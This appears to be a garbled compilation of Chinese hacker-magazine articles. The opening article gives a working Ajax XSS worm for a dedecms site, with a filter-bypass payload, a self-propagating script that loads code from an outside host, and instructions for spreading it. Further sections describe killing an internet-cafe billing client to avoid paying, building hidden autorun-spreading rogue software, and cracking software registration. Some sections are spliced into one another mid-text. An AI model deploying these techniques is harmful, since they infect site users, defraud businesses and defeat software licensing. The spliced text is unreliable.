- 简单了解 Ajax 及蠕虫的原理
- 通过实例分析 Ajax 蠕虫

自从校内蠕虫被某位大牛曝光之后，我才知道有 Ajax 蠕虫这么个东西。哎，出了那么久的东西居然才听说，真是悲哀啊。为了缓解下这悲哀的情绪，我写只个人 Ajax 蠕虫出来释释怀。通过痛苦的学习和不断的尝试，一只 Ajax 蠕虫就这样诞生了，心情是无法形容的。下面就把我的亲身经历给大家讲讲吧。

## 命中注定的 XSS

前几天上某站长网，主要是看看有没网站程序收购的帖子。无聊中就随便注册了个帐号，然后登录，如图 1 所示。

这个站点用的是 dedecms 的。反正闲着也是闲着，看看有没有什么洞洞可以利用吧。弄了一会，还真被我发现了点好玩的，如图 2、图 3 所示。

也许各位会说，不就是个再普通不过的跨站嘛，鸡肋。对啊，确实是鸡肋，因为我当时也是这么认为的，所以这件事也就不了了之了。

几天之后，也不知道发什么疯，突然有了想写个 Ajax 蠕虫的冲动，可能跟我看的那几篇关于校内蠕虫的文章有关。啥也不说了，想到了就马上去做。作为蠕虫，首要的特点当然是复制和自动传播。要想自动传播，必须要有一定的触发条件——XSS，也就是传说中的鸡肋。忽然想起前几天不是正好发现了个 dedecms 个人空间的 XSS 么，看来这就是传说中的命中注定了。


## 可恶的字符串数限制

世界上果然没有一帆风顺的事，想法和现实的落差为什么每次都那么大。真的没想到上次发现能 XSS 的地方居然做了字符串数限制。也就是说，这个 XSS 果然是鸡肋中的鸡肋，如图 4 所示。

我在能 XSS 的地方写的是 `<Script>alert('www.hackall.cn')</Script>`，但是没有出现预料的效果，反而是代码的一部分直接被显示出来了。查看了页面的源代码才知道字符数做限制了，如图 5 所示。


我当时很郁闷，但是灵感来了是挡也挡不住的哟。下面就让我给大家演示下是怎么突破的吧。在网址栏里填 `'><Script>alert('www.hackall.cn')/*`，然后在链接名标题里填 `*/</Script>`，于是乎就成功突破了字符串限制。添加 `/**/` 主要是为了去掉多余的干扰字符，如图 6 所示。


## 自动传播是关键

蠕虫的本质就是感染。我们的蠕虫究竟怎么才能实现感染功能呢？可能大家都想到了吧，就是让每个登录的用户在浏览我的空间时，神不知鬼不觉地给他们自动添加一个 XSS 代码，过程就跟我上面的 XSS 过程一样，只不过这些都是要蠕虫自己来完成的而已。下面这个 URL，就是添加一个含 XSS 代码的友情链接：`http://www***.com/member/link_main.php?dopost=addnew&title=</Script>&url='></a><Script src=http://www.hackall.cn/3.txt>/*`，如图 7、图 8 所示。

只要想办法让浏览空间的登录用户去访问上面那条构造的 URL，那就不知不觉地被感染了。既然已经有思路了，那么接下来的事情也就简单化了。下面就该 XMLHttpRequest 登场咯，具体用法我就不多说了，它可是 Ajax 中的主要角色，主要的功能就是异步提交，详细代码及注释如下：


```javascript
var xmlhttp;
function xiaoman() {
    if (window.XMLHttpRequest) {
        xmlhttp = new XMLHttpRequest();
    } else if (window.ActiveXObject) {
        xmlhttp = new ActiveXObject('Microsoft.XMLHTTP');
        // 浏览器的兼容
    }
    xmlhttp.open('get', 'http://www.***.com/member/link_main.php?dopost=addnew&title=</Script>&url="></a><Script src=http://www.hackall.cn/3.txt>/*', true);
    xmlhttp.send(null);
    // 感染
}
```

这段代码很简单，相信各位大大们都能看得懂。意思就是当登录用户在浏览我们空间的时候自动提交指定的 URL。

会说那这代码应该放在哪里呢？当然是放到隐蔽的地方咯，就像我一样，把代码保存到了 `http://www.hackall.cn/3.txt` 中。

至于如何启动这个蠕虫呀？大致的过程是这样的：

- 首先你要把以上代码保存到一个安全的地方，至于后缀嘛，txt、gif 或是 html，随你的便。
- 在自己的空间里添加一个包含 XSS 的友情链接。这句 XSS 的代码为 `<Script src=http://你的代码保存的地址></Script>`。
- 最后就是把自己的空间宣传出去，这样才会有越来越多的人感染。

**写在最后**

本文其实很简单，现在你可能会说这就是传说中的 Ajax 蠕虫！不像嘛。是啊，确实不像。因为它只是一只具有传播功能的小东西，还只是个雏形，可的的确确就是一只 Ajax 蠕虫。既然是 Ajax 蠕虫初接触，当然文章不能讲得太深啦。如果你还不满意的话，我将在后面的文章中继续完善这只蠕虫。好了，就先介绍到这吧，希望大家喜欢此文。

> **编辑点评：**
>
> Ajax，也不算什么新技术了，它提高了网页的质量和速度，不过同时也带来了不安全的隐患，本文的作者利用实例证明了这点。Ajax 蠕虫应该还算病毒中比较新的类型，不多见，但一旦被感染，影响一定很大。

## 经验网吧很 EASY

缥缈匿影 love → yudi

- 从本文你可以学到：
- 使用 360 恢复限制
- tasklist 列进程及 taskkill 结束多进程

放假了，给女友 yadi 打电话，约好周日去上网。好久没到网吧上网了，习惯性地看了一下网吧的计费系统，是同联。

我一边和 yadi 聊天一边用“超级旋风”下载官方网站 x.soso.com 上的资源，上面很多好东东哦！找了几本电脑编程书和新上映的电影，电子书很顺利地下载了。下载电影时先下载 BT 种子，然后再根据种子下载电影。种子下载好了，“超级旋风”会自动弹出对话框，设置电影的保存路径，但这次下载好种子后却没有自动弹出对话框。找到刚才下载的种子，双击后什么反应都没有。用快捷键 Ctrl+Shift+Esc 打开任务管理器，任务管理器被禁用。关闭“被禁用”的对话框，眼前突然一亮，桌面上有 360 安全卫士。赶紧打开 360 安全卫士，点软件上的“高级”选项，再点“系统进程状态”，就能查看系统的进程了。如果是系统进程，安全级别显示的是安全。在进程中查找有没有什么可疑的，居然发现个看了令人想笑的进程，这个进程名是“屏蔽.exe”。不用多想，直接 KO 这个进程，此时再双击种子时，就能下载电影了。

在网吧上网时，有很多机器的还原卡被破解后放了木马，用 360 安全卫士中“查杀流行木马”也能把常见的木马扫描到。点“系统全面诊断”后，就会自动扫描系统哪些地方被改过，能破解网吧的一些限制。要灵活运用软件提供的功能，网吧安装的软件或许就是我们破解限制时能用到的。

要下机了，总弹出提示金额不足的对话框。老虎不发威当我是病猫啊！找到同联安装的目录，一般在 C 盘中，如图 1。发现文件中有两个可执行程序，分别是 ClientBK.exe 和 ClientP.exe。

（根据文件的扩展名判断是不是可执行程序：点“工具”→“文件夹选项”→“查看”，把“隐藏已知文件类型的扩展名”前面的钩去掉，最后点“确定”就能看到文件的扩展名了。）

点“开始”没有“运行”，在桌面上新建文本文档，输入 `start cmd.exe` 后（输入时不包括引号，start 和 cmd.exe 之间有一个空格），点“文件”选“另存为”，文件名后缀写成“.bat”，我写的是 aiyadi.bat，这样就保存成了批处理文件。双击 aiyadi.bat 就打开了 CMD，输入 `tasklist` 后回车，就把电脑上所有的进程显示出来了，如图 2。


根据安装文件中的程序和列出的进程对比，就能够发现 ClientBK.exe 和 ClientP.exe 这两个进程就是网吧收费客户端进程。如果一个程序有多个进程，那就肯定有保护进程。所以把这两个进程同时终止掉就 OK 了！手上也没有什么工具，刚才不是打开了 CMD 了嘛，就用 CMD 吧。使用 taskkill 命令能同时终止 N 个进程。命令格式是：`taskkill /f /im 进程名 /im 进程名 /im 进程名`。

这就是同时终止无限多个进程的命令格式！“/f”参数的意思是指定要强行终止进程；“/im”指定要终止的进程的映像名。输入 `taskkill /f /im ClientBK.exe /im ClientP.exe` 回车后，同时终止了两个进程，如图 3。


任务栏查询剩余金额的图标消失了，不会再弹出讨厌的提示了。聊了一下午，和女友说再见回家吃饭喽。其实胜利离你很近，关键就是坚持下去。要对自己有信心，所有问题也就自然迎刃而解了！

编辑说明：本文没有太多的技术，适合新手欣赏^-^，另：注意人身安全！

## 了解 Hooks（一）之菜鸟恶补

- 简单了解 Hook 及系统的一些 Hook 类型
- 了解加载 Hook 的过程

这篇文章将和大家浅显地了解一下 Hooks，希望大家看了后能对 Hooks 有一定的了解。

首先解释一下什么是 Hooks。Hooks 是 Microsoft Windows 中消息控制机制中的一个应用程序，可以通过它来控制消息的传递过程，当然有些 Hooks 能在消息到达目标前修改消息。Hooks 就是用户和 Windows 处理层之间的介质，也可以说是中间人。用户在发生一个操作时，系统首先将这个操作信息传给 Hooks，然后经过 Hooks 传到系统中。举个例子说，有一天你有事不能去上学了，就叫同学给你请假，告诉老师说你不能来了。这时，你同学扮演的就是 Hooks 的角色，你可以通过他来传递你有事这个消息，当然，他也可以告诉老师说你在旷课，因为你的消息要经过他。

正是这种机制，Hooks 会减缓系统的运行速度。因为与这种 Hooks 有关的消息都要经过这个 Hook。所以在不同的使用目的下，应该适时卸载，以保证系统的正常运行。

Windows 中有很多种 Hook，每一种 Hook 都提供了控制不同信息的机会。比如 WH_CBTHOOK 可以控制窗口的最大化、最小化等消息。

Windows 为 Hook 提供了一条链，这条链是 Hook 过程的回调函数。当产生了和一种链相关的消息后，Windows 按 Hook 创建的先后，传递给每个 Hook，每个 Hook 可以采取的动作取决于这种 Hook 的类型。一些 Hook 过程只能接收信息，而一些则可以改变接收到的信息。信息的传递过程如图 1 所示。

现在大家对 Hook 有一定了解了吧。要使用一种 Hook，我们需要用 SetWindowsHookEx 函数来安装 Hook，每个 Hook 过程必须有下面的回调函数。


```c
LRESULT CALLBACK HookProc(
    int nCode,
    WPARAM wParam,
    LPARAM lParam
)
```

nCode 参数是一个 Hook 过程用来决定处理途径的代码，nCode 的值取决于 Hook 的类型，每一种 Hook 都有一个特殊的 nCode。wParam 和 lParam 这两个参数也取决于 Hook 的类型，但是它们由被传递的消息组成。

SetWindowsHookEx 函数总是把 Hook 安装到一个 Hook 链的开始，当一个事件产生时，系统首先调用这个 Hook，链上的每个 Hook 都可以决定是否传递这个消息，当 Hook 传递消息时要调用 CallNextHookEx 函数。

一个 Hook 可以是全局 Hook，也可以是线程 Hook。全局 Hook 可以控制所有应用程序的消息，所以它必须被装在一个 DLL 文件里，而线程 Hook 则不一样，它只控制个体产生的消息。大家可以看出来，全局 Hook 对系统是有严重影响的，所以最好在必要时使用全局 Hook，而把 Hook 所在的 DLL 文件尽可能做得精简。

下面举些常见的例子，说说 Hook 的类型。

- **WH_CALLWNDPROC** 和 **WH_CALLWNDPROCRET** 可以使你控制被 SendMessage 函数传来的信息，在信息到达窗口之前，系统先把信息传递给 WH_CALLWNDPROC，而在到达窗口之后则调用 WH_CALLWNDPROCRET。
- **WH_CALLWNDPROCRET** 把 CWPRETSTRUCT 结构的地址传递给 Hook 过程，这个结构包含了窗口处理信息后的返回值。
- **WH_CBT** 可以在消息到达应用程序前接收到消息，这些消息包括激活、创建、卸载、最大化和最小化窗口。
- **WH_DEBUG** 可以控制消息的传递，就是说可以控制是否让一条消息传到程序对应的 Hook 过程。
- **WH_GETMESSAGE** 用来控制键盘和鼠标信息的传递。
- **WH_JOURNALPLAYBACK** 用来向消息队列中插入消息，我们可以用这类 Hook 回放一连串使用 WH_JOURNALRECORD 记录的鼠标和键盘事件。这个 Hook 是一个全局 Hook，它不能被用来当作一个线程 Hook。
- **WH_JOURNALRECORD** 用来记录输入的事件，记录了的事件可以用 WH_JOURNALPLAYBACK Hook 回放。这个 Hook 也是一个全局 Hook，并且不能被用来当作线程 Hook。
- **WH_KEYBOARD** 用来记录将要被 GetMessage 和 PeekMessage 函数返回的 WM_KEYDOWN 和 WM_KEYUP 类型的消息。
- **WH_MOUSE** 可以控制鼠标产生的将要被 GetMessage 和 PeekMessage 返回的消息。
- **WH_MSGFILTER** 和 **WH_SYSMSGFILTER** 可以控制向 menu、bar、messagebox 等传入的消息。还可以侦测一个将要被用户使用 ALT+TAB 或 ALT+ESC 键激活窗口的信息。WH_SYSMSGFILTER 可以控制所有应用程序类似这样的消息。## 易语言编程之菜鸟打造简单流氓软件

- 从本文您可以学到：
- 1. 了解 E 语言的简单操作和语法
- 2. 掌握流氓软件的常用手段

在前几期的杂志上看到了用易语言写 IP 扫描器、下载者和 ASP 木马生成器，我也接触了一下易语言，发现它是一种对于我们小菜来说很容易上手的语言。去年第 8 期杂志上有篇用 VB 来写简单病毒的文章，其实要实现那些功能用易语言也很简单，今天我不是写病毒，而是写一个简单的流氓软件。想必大家都曾中过流氓软件，那我们就一起来了解一下它的原理和产生过程。

先说一下思路。首先让流氓程序运行后在 C:\Windows 下释放出 xcacls.exe，用以设置 NTFS 文件权限。接着遍历各盘符，利用 xcacls.exe 降低被感染电脑上用来防止 U 盘病毒的 autorun.inf 文件夹的 NTFS 权限。然后删除 autorun.inf 文件夹并写入我们的 autorun.inf 文件夹，再把流氓软件复制到各个盘的根目录里，以达到打开该盘就自动运行的目的。最后再添加自己到启动组和注册表启动项。

思路有了，那就立即着手开工吧。先打开易语言新建一个 Windows 窗口程序，如图 1 所示。

在左边的工作夹的属性栏更改窗口可视属性为假，流氓软件嘛，肯定不能让人看到噻，如图 2 所示。

接着导入 xcacls.exe 资源，命令资源名为 xcacls，如图 3 所示。

再建立一个时钟控件，设定周期为 300000 毫秒（即 5 分钟），如图 4 所示。

现在双击时钟控件，进入代码编辑区，先建立用到的变量，如图 5 所示。

| 窗口程序集名 | 变量名 | 类型 | 静态 |
| --- | --- | --- | --- |
| 窗口程序集1 | 盘符 | 文本型 |  |
|  | 文件夹 | 文本型 |  |

```c
while (GetMessage(&msg, (HWND)NULL, 0, 0)) {
    if (!CallMsgFilter(&msg, 0))
        DispatchMessage(&msg);
}
```

WH_SHELL 用来接收重要的通知，当一个 shell 程序将要被激活，或一个 top-level 窗口被创建或释放时，Windows 会调用 WH_SHELL。用 SetWindowsHookEx 函数来安装一个 Hook 时，必须把全局 Hook 写进一个 DLL 中，然后用 LoadLibrary 函数得到 DLL 的句柄，得到后就可以用 GetProcAddress 函数得到 Hook 过程的地址，剩下的就是用 SetWindowsHookEx 安装 Hook 了。下面是一个简单的例子。

```c
HOOKPROC hkprcSysMsg;
static HINSTANCE hinstDLL;
static HHOOK hhookSysMsg;
hinstDLL = LoadLibrary(_T("c:\\windows\\sysmsg.dll"));
hkprcSysMsg = SetWindowsHookEx(WH_SYSMSGFILTER, hkprcSysMsg, hinstDLL, 0);
```

好了，就先说到这里吧，这都是些理论的知识，有点枯燥，呵呵。但是这些对于编写优秀的程序是非常有用的。

> 编辑点评：
> Hook 已经不再是神秘的话题了，不过具体介绍 Hook 的文章不是很多，本文就从最基础的开始介绍，不错！

```text
（图 6：具体代码及注释）
```

然后在“时钟1—周期事件”子程序中输入代码，如图 6 所示。

最后选择“编译”中的“独立编译”，生成 scvice.exe 即可，如图 7 所示。

## 写在后面

为防止误操作，以上编写过程中应在虚拟机或影子系统保护下进行。测试编译后的 scvice.exe，发现只有写注册表动作被卡巴截获了，其他都正常。其实只要再加一些代码和模块就可以实现如进程保护等功能。

## 86 的唠言唠语

不知不觉，又到阳春三月了，俗话说：一年之计在于春！希望大家还没错过春天，也希望大家能够在春天播种，因为春天是一个耕种的季节。如果做一件事情，首先不计划一下的话，怎么会成功呢？成功总不可能是一步就能登天的吧（当然某些特例除外）？特例属于那种一生下来就是不平凡的人，而大多数人却是那么平凡的，所以我们想要成功，就需要有计划地一步步实现心中的理想。不知今春你播种了吗？

## 每月破新闻

- 1. **HideOD v0.181**
- 2. **PEiD 0.94 看雪全插件版**
- 3. **OllyDbg.V1.10.Execryptor.Edition**

这是 OllyDebugger 的一个带有隐藏功能的插件，虽然之前也有类似的国外版本插件，但是功能还是不如这个强大，其中汇集了几大高手的精华，即使是国外的一些 cracker 高手，还是比较推荐这个插件的，可见其强大之处。0.181 版本与之前的 0.17 版本比较，修正了 HeapMagic，主要是躲过 Themida 1.9.4.0 检测，还调整了一下选项界面。之前也有很多 crack 爱好者使用这个插件来避开 Themida 壳的检测，对于想脱 Themida 壳的人来说，这是一个不错的选择。

相关连接：http://bbs.pediy.com/showthread.php?t=36439

大家都知道，PEiD 0.94 是现在非常流行且著名的侦壳工具，PEiD 能够侦测出几乎所有的壳，其数量已超过 470 种 PE 文件的加壳类型和签名。虽然网上也有很多版本，但很多都或多或少缺少一些插件吧，所以虾米熬了几个夜晚做出了一个看雪全插件版，经过插件后的 PEiD 还可识别出 PE 文件是用什么语言编写的，比如：VB、VC++ 或 Delphi 等。

相关连接：http://bbs.pediy.com/showthread.php?t=50778

这是一个 OllyDbg 的修改版本，其功能主要是针对 Execryptor 壳而特别修改出来的，目的就是为了能通过 OD 轻松调试使用 Execryptor 加壳后的程序，而且载入程序后，会停在系统断点处。与一般的修改版本比较，这是最显眼的地方。通过这个修改版配合对应的脚本对付 Execryptor 壳，确实能收到非常好的效果。光盘带有完整文件和对应的脚本。

相关连接：http://www.tuts4you.com/download.php?view.553

## 每月破资源

## 我要破解全集

这是 DFCG 创始人之一 woyao 的全集电子书，内容包含了一些作者当年所 crack 的过程，内容也涵盖了一些破解技巧，而且语言通俗易懂。老实说，我自己看了也非常喜爱。如果你觉得对于破解还是无从入门的话，那么这几本电子书可能会对你有很大帮助，千万不要错过哦！光盘中包含了首发篇、续发篇、再续篇和增补篇四本。

## 重启验证型之注册表型

December

从本文你可以学习到如何对付注册表型重启验证判断。

大家好，在上一篇中，我和大家讲了关于“ini 文件”的问题，但是并不是所有的重启验证都只在 ini 文件中，有时候还会将注册信息存放到注册表中，所以这一次，和大家介绍一下关于注册表类型的如何入手。

一般来说，在输入注册信息、点击确定前，可以利用监视类软件来查看一下，比如 FileMon 和 RegShot 等。这个对于重启验证、防止重复运行、双进程保护、插进程、镜像劫持、exe 感染等复杂动作的分析，都是我们学习的动力啊！

> 对于所有注册表型重启验证的程序来说，都是通用的，但这次讨论的是直接使用 API 函数来下断点，获得关键点！与注册表有关的函数有：

- RegOpenKeyA 打开一个现有的注册表项
- RegOpenKeyExA 打开一个现有的注册表项
- RegCreateKeyA 在指定的项下创建或打开一个项
- RegCreateKeyExA 在指定项下创建新项的更复杂的方式
- RegDeleteKeyA 删除现有项下方一个指定的子项
- RegDeleteValueA 删除指定项下方的一个值
- RegQueryValueA 获取一个项的设置值
- RegQueryValueExA 获取一个项的设置值
- RegSetValueA 设置指定项或子项的值
- RegSetValueExA 设置指定项的值
- RegCloseKey 关闭系统注册表中的一个项（或键）

编辑点评：小编我平时用 VB，现在看来 E 语言好像更简单些！

## 注册表篇之三 2008.03→【CRACKER】

出注册窗口了，随便输入注册信息，点“OK”之后，会出现如图 1 界面。

大概意思就是感谢你选择我们的产品吧，英文不好，别见怪哦！再点“确定”之后，程序就消失了，安装目录下没发现与注册信息相关的内容，也没发现有什么敏感信息，所以我初步推断是写进注册表去了。为什么这么推断呢？如果你在经过大量的练习之后，可能也会有这种感觉了吧，呵呵！某大侠说过：“有时候，猜，也是一种艺术”！另外，发现注册的每个框固定是 5 位，也就是注册码总共 15 位，不知道是否有用，不过也先记下吧。

既然猜测是把注册信息写进注册表去了，那么就去注册表那里搜一下吧，如图 2。

搜索 email 地址，当然你搜索刚输入的注册内容也行，搜索结果如图 3。

这下可以完全确定了吧？果然是写进了注册表，把项名称复制出来看看，HKEY_USERS\S-1-5-21-1708537768-10352544-839522115-1003\Software\Deskyware，居然藏得这么深，怪不得我开始找的时候没找着。好了，既然这一点可以确定了，那么下面就看看程序是否有加壳吧，这都是老规矩了，如图 4。

显示是 Borland Delphi 编写的，没加壳，很幸运哦！好了，既然如此的话，那么下面就把它丢进 OD 里面去吧！根据之前的理论知识，下断点：bp RegQueryValueExA，然后 F9 运行，程序就马上中断了下来，停在下面代码处：

```asm
77DA7883  > 8BF7        mov edi,edi
77DA7885    55          push ebp
77DA7886    8BEC        mov ebp,esp
```

从地址上来看，这时候是还在系统领空状态，但是现在并不需要急着返回到系统领空中去，先来留意一下堆栈的变化吧：

```asm
0012EE80  74683804  /CALL 到 RegQueryValueExA 来自 746837FE
0012EE84  000000B8  |hKey = B8
0012EE88  74682F3C  |ValueName = "CUAS"
0012EE8C  00000000  |Reserved = NULL
```

很明显，这里的名称和刚才图 3 的名称不一样，所以继续 F9 运行之，再看：

```asm
0012EE90  7468E437  /CALL 到 RegQueryValueExA 来自 7468E431
0012EE94  0000009C  |hKey = 9C
0012EE98  74685384  |ValueName = "Language Hotkey"
```

```asm
0012EE90  7468E437  /CALL 到 RegQueryValueExA 来自 7468E431
0012EE94  0000009C  |hKey = 9C
0012EE98  7468536C  |ValueName = "Layout Hotkey"
第四次
0012EEC0  7468262F  /CALL 到 RegQueryValueExA 来自 74682629
0012EEC4  0000009C  |hKey = 9C
0012EEC8  7468265C  |ValueName = "EnableAnchorContext"
第五次
0012FC0C  0049E64D  /CALL 到 RegQueryValueExA 来自 Calendar.0049E648
0012FC10  000000B8  |hKey = B8
0012FC14  0049E744  |ValueName = "layout_text"
第六次
0012FF3C  004489DB  /CALL 到 RegQueryValueExA 来自 Calendar.004489D6
004489D6
0012FF40  000000C8  |hKey = C8
0012FF44  004B999C  |ValueName = "CalDat"
第七次
0012FED8  004489DB  /CALL 到 RegQueryValueExA 来自 Calendar.004489D6
004489D6
0012FEDC  000000C8  |hKey = C8
0012FEE0  004B9BB4  |ValueName = "Code"
第八次
0012FEDC  00448BF8  /CALL 到 RegQueryValueExA 来自 Calendar.00448BF3
00448BF3
0012FEE0  000000C8  |hKey = C8
0012FEE4  004B9BB4  |ValueName = "Code"
第九次
0012FED8  004489DB  /CALL 到 RegQueryValueExA 来自 Calendar.004489D6
004489D6
0012FEDC  000000C8  |hKey = C8
0012FEE0  004B9BC4  |ValueName = "UserName"
第十次
0012FEDC  004488F8  /CALL 到 RegQueryValueExA 来自 Calendar.004488F3
004488F3
0012FEE0  000000C8  |hKey = C8
0012FEE4  004B9BC4  |ValueName = "UserName"
```

到第十次的时候，可以看到堆栈的变化已经很明显了，有两次的“Code”和两次的“UserName”，我在这第十次的时候返回。如果不敢肯定的话，可以再 F9 一次，如果跑丢了，可以重新来一次，这样就万无一失了！返回后，会来到下面代码处：

```asm
00448BF3   E8 B4EFBFFF    call <jmp.&advapi32.RegQueryValueExA>
00448BF8   85C0           test eax,eax
返回到这里
00448BFA   74 24          je short Calendar.00448C20
```

代码返回在 00448BF8 地址处，这时候一路 F8 走，在两三个返回后，会最终来到关键代码的地方：

```asm
004B9AA6   BA 989B4B00    mov edx,Calendar.004B9B98
Software\Deskyware    //注册表路径
004B9AAB   8B45 F0        mov eax,dword ptr ss:[ebp-10]

004B9ABA   BA B49B4B00    mov edx,Calendar.004B9BB4
Code    //注册表项名称
004B9ABF   8B45 F0        mov eax,dword ptr ss:[ebp-10]

004B9ACA   BA C49B4B00    mov edx,Calendar.004B9BC4
UserName    //注册表项名称
004B9ACF   8B45 F0        mov eax,dword ptr ss:[ebp-10]
004B9AD2   E8 71EFBFFF    call Calendar.00448A48

004B9ADC   8B55 F4        mov edx,dword ptr ss:[ebp-C]
把 email 地址保存到 edx 中
004B9ADF   E8 F06F4FFF    call Calendar.004051D4
004B9AE4   8D45 E8        lea eax,dword ptr ss:[ebp-18]
004B9AE7   50             push eax
004B9AE8   8D45 E0        lea eax,dword ptr ss:[ebp-20]
004B9AEB   B9 D89B4B00    mov ecx,Calendar.004B9BD8
Let us do it again!    //固定字符串
004B9AF0   8B55 F4        mov edx,dword ptr ss:[ebp-C]
004B9AF3   E8 A48F4FFF    call Calendar.0040549C
将 email 地址连接固定字符串
```

```asm
004B9AF8    8B45 E0        mov eax,dword ptr ss:[ebp-20]
```

这里知道程序是先读取注册表路径，然后查看项名称，看看是否已经把注册信息写入到注册表，接着把 email 地址保存到 edx 中，再与固定字符串 Let us do it again! 连接，最后将结果保存到 eax 中。

```asm
004B9AFE    E8 A5ECFFFF    call Calendar.004B87A8
```

MD5 运算。

这个跟进去后并没有看到 MD5 的几个常数，但是从后面的结果来看，好像使用了 MD5 算法，所以我用了一个 MD5 工具来验证一下，如图 5。图 5 确实证实了这一点，继续看下面的代码：

图 5 MD5 工具验证结果

```asm
004B9B15    8B45 E8        mov eax,dword ptr ss:[ebp-18]
5B4D99E8AA9F944
004B9B18    8D55 EC        lea edx,dword ptr ss:[ebp-14]
004B9B1B    E8 5C1BF5FF    call Calendar.0040B676
004B9B20    8B55 EC        mov edx,dword ptr ss:[ebp-14]
5B4D99E8AA9F944
004B9B23    8B45 F8        mov eax,dword ptr ss:[ebp-8]
004B9B26    E8 71BAF4FF    call Calendar.0040659C

004B9B2B    75 04          jne short Calendar.004B9B31
004B9B2D    C645 FF 01     mov byte ptr ss:[ebp-1],1
```

经此比较：注册判断执行者；注册成功标志。

因为注册码固定为 15 位，所以就取 MD5 运算值的前 15 位，算法是非常简单的。到这里整个流程都很明朗了，相信你也能走到这一步！到这里本来程序注册方面已经没什么好看的了，但是重启验证寻找关键点是必不可少的，所以这里还是跟大家说一下，假如不是使用 API 断点来寻找的话，如何寻找关键点？

好，我们重新载入看看，使用 OD 的字符串插件找到的结果，如图 6。

图 6 OD 字符串插件搜索结果

这里同样可以看到 code 和 username，还有就是固定字符串 Let us do it again!，虽然这里并不能确定是哪个 code 还是哪个 username，但是我们可以全部打上断点，这样就保证没有漏掉一个了，而且程序运行后会自动中断在关键点的地方，没有关系的它是不会中断的！当然，除了以上介绍的两个方法外，对于 Delphi 的程序，我们还有 DeDe 这个超强工具，这里我就不多说了，在以后的介绍中我会专门给大家讲讲这个工具的使用与分析方法！后来来试验一下我们的注册信息吧，如图 7。

图 7 注册成功

好了，本文到这里基本完结了，这次又胡说八道这么久，写了两篇关于重启验证的文章，希望对于还在重启验证中迷惘的你有一点帮助，这样我的目的也就达到了！如果你在学习过程中有问题的话，可以到黑手论坛与我交流！

> 【本文介绍的相关程序已收录在本期光盘中】

## 编辑点评：

作者继上篇“PE 文件类”的又一好文，两篇文章给大家讲述了关于重启验证方面的内容。一般来说，破解重启验证寻找关键点的方法大体就这些，非常基础，而且也很简单易懂，相信两篇文章将可以为你拨开云雾。

## 裂目 Crackme

Hacksign

从本文你可以学到：

- 1. 程序的破解思路
- 2. 注册机代码编写

上了大学后一直在忙，也不知道忙什么。最近终于闲下来了，于是赶紧抓起调试器，熟悉一下已经有些陌生了的汇编代码。文章是写给刚刚接触破解不久的新手的，所以写得比较啰嗦，高手勿笑。

### 一、算法分析

查了一下没有加壳，运行出现如图 1 界面。输入用户名 Hacksign 和注册码 176246262，点 Check 后报警，初步推断定 F（username）= regcode 的形式。在 OD 中载入此 crackme，提示程序被压缩，询问是否继续分析，点“否”（因为程序是用汇编写的，并不是从正常的位置加载，所以 OD 会提示）。用命令 bpx r 看一下程序调用了哪些函数，如图 2。

图 1 程序界面

图 2 调用函数

直接在出现的窗口中输入 GETDLG，就发现 OD 已经自动为我们定位到了 GetDlgItemTextA 函数（OD 就是好用）。在这个函数上点右键，然后选择“在每个调用到 GetDlgItemTextA 函数上设置断点”，这样 OD 就会在程序每次调用到 GetDlgItemTextA 函数时自动中断下来。好啦，万事具备，只欠运行，F9 让程序跑起来，输入用户名和注册码后点 Check，程序被断下：

```asm
004010E2    E8 49020000    CALL <JMP.&USER32.GetDlgItemTextA>
读取用户名长度
004010E7    83F8 05        CMP EAX,5
用户名长度要大于 5
004010EA    7D 25          JGE SHORT 00401112
```

小结 1：程序第一次调用 GetDlgItemTextA 函数用来获得用户输入人的用户名，GetDlgItemTextA 函数返回获得字符串的长度（字符）并存放在 eax 寄存器中，所以根据上面的代码可以看出，用户名的长度必须大于 5 才可以。下面继续跟踪程序的运行：

```asm
00401112    E8 0C000000      CALL try.004011F3
关键 call1，跟进
00401116    6A 50            PUSH 50
00401119    68 90314000      PUSH try.00403190
0040111E    68 4D010000      PUSH 14D
00401123    FF75 08          PUSH DWORD PTR SS:[EBP+8]
00401126    E8 FF010000      CALL <JMP.&USER32.GetDlgItemTextA>
获取注册码，返回长度
0040112B    A1 90314000      MOV EAX,DWORD PTR DS:[403190]
注册码到 eax
00401130    3D 74737268      CMP EAX,68727374
注册码需要以 tsrh 开头
00401135    75 23            JNZ SHORT try.0040115A
不是以 tsrh 开头就跳向出错处理的地方
00401137    05 20320000      ADD EAX,3220
eax=ascii（tsrh）+0x3220
0040113C    50               PUSH EAX
0040113D    33C0             XOR EAX,EAX
0040113F    E8 EA000000      CALL try.0040122E
关键 call2，跟进
00401144    58               POP EAX
00401145    85C0             TEST EAX,EAX
00401147    74 11            JE SHORT try.0040115A
00401149    33C2             XOR EAX,EDX      ; eax=eax xor 关键 call2 的计算结果
0040114B    8BD0             MOV EDX,EAX      ; 保存到 edx
0040114D    8BF0             MOV ESI,EAX
0040114F    33C0             XOR EAX,EAX
00401151    E8 31010000      CALL try.00401287
关键 call3
00401156    84C0             TEST AL,AL
测试标志位
00401158    75 1F            JNZ SHORT try.00401179
为 0 就不跳，后果就是出错啦
```

## 小结 2

可以把上面那一段代码理解为“主函数”，下面所有的工作都是这个主函数的“子函数”。全文中每调用完一个“子函数”就会再回到这里，所以大家要注意哦：）重新输入这个注册码 tsrh176246262，来到关键 call 1。在 OD 下面 F7 跟入这个“函数”：

```asm
004011F3    A3 14354000      MOV DWORD PTR DS:[403514],EAX
eax 保存用户名长度
004011F8    BF D3070000      MOV EDI,7D3
常数 7D3
004011FD    03 3D 14354000   ADD EDI,DWORD PTR DS:[403514]
edi=lstrlen(username)+用户名的长度与 0x7d3 相加后的结果
00401203    57               PUSH EDI
00401204    68 1B354000      PUSH try.0040351B
ASCII:'%d'
00401209    68 20334000      PUSH try.00403320
输出的缓冲区地址
0040120E    E8 05010000      CALL <JMP.&USER32.wsprintfA>
注册码形式 tsrh-xxx- 的形成
00401213    83C4 0C          ADD ESP,0C
00401216    68 20334000      PUSH try.00403320
存放注册码的缓冲区
0040121B    E8 34010000      CALL <JMP.&KERNEL32.lstrlenA>
获得 tsrh-xxx- 的长度
00401220    8B3D 14354000    MOV EDI,DWORD PTR DS:[403514]
00401226    BE 01000000      MOV ESI,1
0040122B    8BC8             MOV ECX,EAX
0040122D    C3               RETN
```

## 小结 3

